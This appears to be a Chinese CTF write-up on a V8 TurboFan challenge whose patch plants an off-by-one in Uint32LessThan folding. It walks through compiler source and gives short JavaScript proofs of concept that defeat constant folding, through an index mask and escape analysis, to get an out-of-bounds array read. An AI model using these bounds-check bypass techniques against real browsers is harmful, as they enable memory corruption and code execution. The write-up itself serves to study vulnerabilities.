


patch
```
diff --git a/src/compiler/machine-operator-reducer.cc b/src/compiler/machine-operator-reducer.cc
index a6a8e87cf4..164ab44fab 100644
--- a/src/compiler/machine-operator-reducer.cc
+++ b/src/compiler/machine-operator-reducer.cc
@@ -291,7 +291,7 @@ Reduction MachineOperatorReducer::Reduce(Node* node) {
       if (m.left().Is(kMaxUInt32)) return ReplaceBool(false);  // M < x => false
       if (m.right().Is(0)) return ReplaceBool(false);          // x < 0 => false
       if (m.IsFoldable()) {                                    // K < K => K
-        return ReplaceBool(m.left().Value() < m.right().Value());
+        return ReplaceBool(m.left().Value() < m.right().Value() + 1);
       }
       if (m.LeftEqualsRight()) return ReplaceBool(false);  // x < x => false
       if (m.left().IsWord32Sar() && m.right().HasValue()) {
```
补丁很简单就是在kUint32LessThan中引入了一个off-by-one，翻译一下这里（m.left().Value() < m.right().Value()+1），即index (数组索引) < length (数组长度) + 1
```
case IrOpcode::kUint32LessThan: {
      Uint32BinopMatcher m(node);
      if (m.left().Is(kMaxUInt32)) return ReplaceBool(false);  // M < x => false
      if (m.right().Is(0)) return ReplaceBool(false);          // x < 0 => false
      if (m.IsFoldable()) {                                    // K < K => K
        return ReplaceBool(m.left().Value() < m.right().Value()+1);
      }
      if (m.LeftEqualsRight()) return ReplaceBool(false);  // x < x => false
      if (m.left().IsWord32Sar() && m.right().HasValue()) {
        Int32BinopMatcher mleft(m.left().node());
        if (mleft.right().HasValue()) {
          // (x >> K) < C => x < (C << K)
          // when C < (M >> K)
          const uint32_t c = m.right().Value();
          const uint32_t k = mleft.right().Value() & 0x1F;
          if (c < static_cast<uint32_t>(kMaxInt >> k)) {
            node->ReplaceInput(0, mleft.left().node());
            node->ReplaceInput(1, Uint32Constant(c << k));
            return Changed(node);
          }
          // TODO(turbofan): else the comparison is always true.
        }
      }
      break;
    }
```


### test

正常情况下：
```
function test() {
    let arr = [1.1, 2.2, 3.3, 4.4];
    let idx = 3;
    return arr[idx];
}
for (i = 0; i < 10000; i++){
    test();
}
```

之前的笔记里写过，checkbounds现在不会被消除掉，只会降级为CheckedUint32Bounds
```
void VisitCheckBounds(Node* node, SimplifiedLowering* lowering) {
    CheckParameters const& p = CheckParametersOf(node->op());
    Type const index_type = TypeOf(node->InputAt(0));
    Type const length_type = TypeOf(node->InputAt(1));
    if (length_type.Is(Type::Unsigned31())) {
      if (index_type.Is(Type::Integral32OrMinusZero())) {
        // Map -0 to 0, and the values in the [-2^31,-1] range to the
        // [2^31,2^32-1] range, which will be considered out-of-bounds
        // as well, because the {length_type} is limited to Unsigned31.
        VisitBinop(node, UseInfo::TruncatingWord32(),
                   MachineRepresentation::kWord32);
        if (lower()) {
          CheckBoundsParameters::Mode mode =
              CheckBoundsParameters::kDeoptOnOutOfBounds;
          if (lowering->poisoning_level_ ==
                  PoisoningMitigationLevel::kDontPoison &&
              (index_type.IsNone() || length_type.IsNone() ||
               (index_type.Min() >= 0.0 &&
                index_type.Max() < length_type.Min()))) {
            // The bounds check is redundant if we already know that
            // the index is within the bounds of [0.0, length[.
            mode = CheckBoundsParameters::kAbortOnOutOfBounds;
          }
          NodeProperties::ChangeOp(
              node, simplified()->CheckedUint32Bounds(p.feedback(), mode));
        }
```
CheckedUint32Bounds在Simplified lower之后降级为Uint32LessThan。
```
Node* EffectControlLinearizer::LowerCheckedUint32Bounds(Node* node,
                                                        Node* frame_state) {
  Node* index = node->InputAt(0);
  Node* limit = node->InputAt(1);
  const CheckBoundsParameters& params = CheckBoundsParametersOf(node->op());

  Node* check = __ Uint32LessThan(index, limit);
  switch (params.mode()) {
    case CheckBoundsParameters::kDeoptOnOutOfBounds:
      __ DeoptimizeIfNot(DeoptimizeReason::kOutOfBounds,
                         params.check_parameters().feedback(), check,
                         frame_state, IsSafetyCheck::kCriticalSafetyCheck);
      break;
    case CheckBoundsParameters::kAbortOnOutOfBounds: {
      auto if_abort = __ MakeDeferredLabel();
      auto done = __ MakeLabel();

      __ Branch(check, &done, &if_abort);

      __ Bind(&if_abort);
      __ Unreachable();
      __ Goto(&done);

      __ Bind(&done);
      break;
    }
  }

  return index;
}
```
图例：





之后LessThan将会根据结果生成一个LoadElement或多个Unreachable节点。


但是我们不能直接构造数组越界（如将let idx = 4;）

原因如下：
之前的笔记中写过
在JSNativeContextSpecialization::BuildElementAccess函数中
有个很特殊的mode：load_mode=LOAD_IGNORE_OUT_OF_BOUNDS
他会在array的index超出了array的length时出现（可以说得上是数组越界的老朋友了）接着就需要对index进行check，看是否超出了Smi::kMaxValue，引入了一个new CheckBounds节点。

```
// Check if we might need to grow the {elements} backing store.
if (keyed_mode.IsStore() && IsGrowStoreMode(keyed_mode.store_mode())) {
  // For growing stores we validate the {index} below.
} else if (keyed_mode.IsLoad() &&
           keyed_mode.load_mode() == LOAD_IGNORE_OUT_OF_BOUNDS &&
           CanTreatHoleAsUndefined(receiver_maps)) {
  // Check that the {index} is a valid array index, we do the actual
  // bounds check below and just skip the store below if it's out of
  // bounds for the {receiver}.
  index = effect = graph()->NewNode(
      simplified()->CheckBounds(VectorSlotPair()), index,
      jsgraph()->Constant(Smi::kMaxValue), effect, control);
} else {
  // Check that the {index} is in the valid range for the {receiver}.
  index = effect =
      graph()->NewNode(simplified()->CheckBounds(VectorSlotPair()), index,
                       length, effect, control);
}
```
然后还需要对index进行实际的check，也就是比较index是否小于array length，引入了一个NumberLessThan节点。
```
// Check if we can return undefined for out-of-bounds loads.
      if (keyed_mode.load_mode() == LOAD_IGNORE_OUT_OF_BOUNDS &&
          CanTreatHoleAsUndefined(receiver_maps)) {
        Node* check =
            graph()->NewNode(simplified()->NumberLessThan(), index, length);
        Node* branch = graph()->NewNode(
            common()->Branch(BranchHint::kTrue,
                             IsSafetyCheck::kCriticalSafetyCheck),
            check, control);

        Node* if_true = graph()->NewNode(common()->IfTrue(), branch);
        Node* etrue = effect;
        Node* vtrue;
        {
          // Perform the actual load
          vtrue = etrue =
              graph()->NewNode(simplified()->LoadElement(element_access),
                               elements, index, etrue, if_true);
```
然后这个节点在LoadElimination进行TyperNarrowingReducer的时候。
```
switch (node->opcode()) {
  case IrOpcode::kNumberLessThan: {
    // TODO(turbofan) Reuse the logic from typer.cc (by integrating relational
    // comparisons with the operation typer).
    Type left_type = NodeProperties::GetType(node->InputAt(0));
    Type right_type = NodeProperties::GetType(node->InputAt(1));
    if (left_type.Is(Type::PlainNumber()) &&
        right_type.Is(Type::PlainNumber())) {
      if (left_type.Max() < right_type.Min()) {
        new_type = op_typer_.singleton_true();
      } else if (left_type.Min() >= right_type.Max()) {
        new_type = op_typer_.singleton_false();
      }
    }
    break;
  }
```
由于left_type（index）的type信息被分析为(4,4)，right_type即array length的type信息被分析为（4,4)
满足else if (left_type.Min() >= right_type.Max())
所以kNumberLessThan的类型会被更新成false，然后在ConstantFoldingReducer时候
```
Reduction ConstantFoldingReducer::Reduce(Node* node) {
  DisallowHeapAccess no_heap_access;
  // Check if the output type is a singleton.  In that case we already know the
  // result value and can simply replace the node if it's eliminable.
  if (!NodeProperties::IsConstant(node) && NodeProperties::IsTyped(node) &&
      node->op()->HasProperty(Operator::kEliminatable)) {
    // TODO(v8:5303): We must not eliminate FinishRegion here. This special
    // case can be removed once we have separate operators for value and
    // effect regions.
    if (node->opcode() == IrOpcode::kFinishRegion) return NoChange();
    // We can only constant-fold nodes here, that are known to not cause any
    // side-effect, may it be a JavaScript observable side-effect or a possible
    // eager deoptimization exit (i.e. {node} has an operator that doesn't have
    // the Operator::kNoDeopt property).
    Type upper = NodeProperties::GetType(node);
    if (!upper.IsNone()) {
      Node* replacement = nullptr;
      if (upper.IsHeapConstant()) {
        replacement = jsgraph()->Constant(upper.AsHeapConstant()->Ref());
```
被直接折叠成了false节点。
这样的话就无法达到利用，所以我们需要做一个修改

```
function test() {
    let arr = [1.1, 2.2, 3.3, 4.4];
    let idx = 4;
    idx = idx & 0xffff;
    return arr[idx];
}
for (i = 0; i < 10000; i++){
    test();
}
```
之前也有写过range分析的笔记，没忘记的话，看下面的代码应该可以得到此时的range分析结果
```
SPECULATIVE_NUMBER_BINOP(NumberBitwiseAnd)
#define SPECULATIVE_NUMBER_BINOP(Name)                         \
  Type OperationTyper::Speculative##Name(Type lhs, Type rhs) { \
    lhs = SpeculativeToNumber(lhs);                            \
    rhs = SpeculativeToNumber(rhs);                            \
    return Name(lhs, rhs);                                     \
  }
--->
Type OperationTyper::NumberBitwiseAnd(Type lhs, Type rhs) {
  DCHECK(lhs.Is(Type::Number()));
  DCHECK(rhs.Is(Type::Number()));

  lhs = NumberToInt32(lhs);
  rhs = NumberToInt32(rhs);

  if (lhs.IsNone() || rhs.IsNone()) return Type::None();

  double lmin = lhs.Min();
  double rmin = rhs.Min();
  double lmax = lhs.Max();
  double rmax = rhs.Max();
  double min = kMinInt;
  // And-ing any two values results in a value no larger than their maximum.
  // Even no larger than their minimum if both values are non-negative.
  double max =
      lmin >= 0 && rmin >= 0 ? std::min(lmax, rmax) : std::max(lmax, rmax);
  // And-ing with a non-negative value x causes the result to be between
  // zero and x.
  if (lmin >= 0) {
    min = 0;
    max = std::min(max, lmax);
  }
  if (rmin >= 0) {
    min = 0;
    max = std::min(max, rmax);
  }
  return Type::Range(min, max, zone());
}

Type OperationTyper::CheckBounds(Type index, Type length) {
  DCHECK(length.Is(cache_->kPositiveSafeInteger));
  if (length.Is(cache_->kSingletonZero)) return Type::None();
  Type mask = Type::Range(0.0, length.Max() - 1, zone());
  if (index.Maybe(Type::MinusZero())) {
    index = Type::Union(index, cache_->kSingletonZero, zone());
  }
  return Type::Intersect(index, mask, zone());
}
```
此时的index和checkbounds都被分析为了Range(0,4)。

之后再次来到left_type.Min() >= right_type.Max())时，由于left为index Range（0，4），right为length Range（4，4），这样就不会满足判断，就可以绕过kNumberLessThan从而实现数组越界。

上面的方法是通过在LoadElimination阶段使idx成为非确定的range来绕过Uint32LessThan。

我们还可以从逃逸分析来入手绕过：

```
function opt(){
 let arr = [1.1, 2, 3, 5];

 let o = {x: 4};
 return arr[o.x];
}
```
因为逃逸分析运行在LoadElimination和MachineOperatorReducer之后，所以我们可以将一个常数放入未逃逸的对象中，以避免常数折叠。


之后的exp利用就按照常规写法写即可。
